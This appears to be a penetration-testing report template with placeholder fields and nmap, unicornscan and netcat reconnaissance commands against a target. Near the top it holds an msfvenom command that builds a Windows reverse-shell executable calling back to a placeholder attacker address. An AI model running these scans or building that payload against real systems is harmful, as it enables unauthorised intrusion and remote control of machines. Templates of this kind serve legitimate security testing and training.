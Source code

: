 ### Info-sheet
msfvenom -p windows/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=443 -f exe -o shell.exe

- DNS-Domain name:
- Host name:
- OS:
- Server:
- Workgroup:
- Windows domain:
- Services and ports:

INSERTTCPSCAN

### Vuln Scan

INSERTVULNSCAN

```
Always start with a stealthy scan to avoid closing ports.

# Syn-scan
nmap -sS INSERTIPADDRESS

# Service-version, default scripts, OS:
nmap INSERTIPADDRESS -sV -sC -O

# Scan all ports, might take a while.
nmap INSERTIPADDRESS -p-

# Scan for UDP
nmap INSERTIPADDRESS -sU
unicornscan -mU -v -I INSERTIPADDRESS

# Connect to udp if one is open
nc -u INSERTIPADDRESS 48772

# Monster scan
nmap INSERTIPADDRESS -p- -A -T4 -sC

# Vulnerability Scan
nmap --script=vuln INSERTIPADDRESS
```


### Port 21 - FTP

- Name:
- Version:
- Anonymous login:

INSERTFTPTEST

```
nmap --script=ftp-anon,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 INSERTIPADDRESS
```
